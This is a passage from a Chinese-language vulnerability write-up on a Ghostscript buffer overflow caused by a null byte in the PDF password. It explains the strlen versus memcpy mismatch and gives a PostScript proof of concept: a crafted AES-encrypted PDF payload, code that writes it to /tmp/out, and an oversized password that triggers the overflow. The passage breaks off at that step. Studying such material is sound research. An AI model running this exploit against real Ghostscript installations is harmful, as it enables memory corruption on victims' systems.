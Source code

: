 ```
// char[5] "hello\000world" 11
memcpy(P->data, Password, PasswordLen);
```  
  
  
因此，在 PostScript 代码中PDFPassword  
，设置为**“hello\000world”**  
，这是一个长度为 11 的 PostScript 字符串，strlen(...)  
但遇到第一个空字节则返回 5。结果，由于11 个字节的数据被复制到分配大小为 5 个字节的缓冲区中，**因此发生了缓冲区溢出**  
。  
### 概念证明  
  
触发漏洞的 poc 代码， 用**PostScript**  
编写。  
  
**1. 创建导致漏洞的 PDF 文件**  
  
```
/Payload (%PDF-1.7
1 0 obj << /CF << /StdCF << /AuthEvent /DocOpen /CFM /AESV3 /Length 32 >> >>
/Filter /Standard /Length 256
/O <bdc7906c8e8074c880ac23065956c0db6a83d234a942d296364d065edf800b8e32a728ba6916718fbeb70e071a4a33ba>
/OE <7c88773da067c026cc58b5204106d54e320d509ab1d10ac3251f7a14e60d6970>
/P -1028 /Perms <1b6bd44c023964a469d801f598c8d5c4> /R 5 /StmF /StdCF /StrF /StdCF
/U <338dc89fb4a90d45cacf91298759e015a6fb0d3f132af0e6970a0079af12054554e7ab059c5392f9abce8a329b2b154b>
/UE <0d8b18de820855c5855de2560a81db57bb4674946bdf2b25eb6b901386492bd7> /V 5 >>
endobj xref 0 1 0000000000 65535 f 0000000009 00000 n trailer << /Encrypt 1 0 R >> startxref 0) def
```  
  
- 上述代码是**在 PostScript 中生成 PDF 文件**  
的简单部分。  
  
- 指定PDF 的加密版本**(R 5)**  
并使用 AES 加密创建文档。  
  
- **该文件本身并不是完整的 PDF，但其结构使得解密逻辑可以触及**  
。  
  
**2. 将 PDF 数据保存到文件**  
  
```
/OutFile (/tmp/out) (w) file def
OutFile Payload writestring
OutFile closefile
```  
  
- 这是将生成的 PDF 数据/tmp/out  
保存到文件的部分。  
  
- 当 Ghostscript 运行时，它负责**告诉它解释这个文件。**  
  
**3.设置密码（漏洞触发器）**  
  
```
/PDFPassword (hello\000BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB) def
```  
  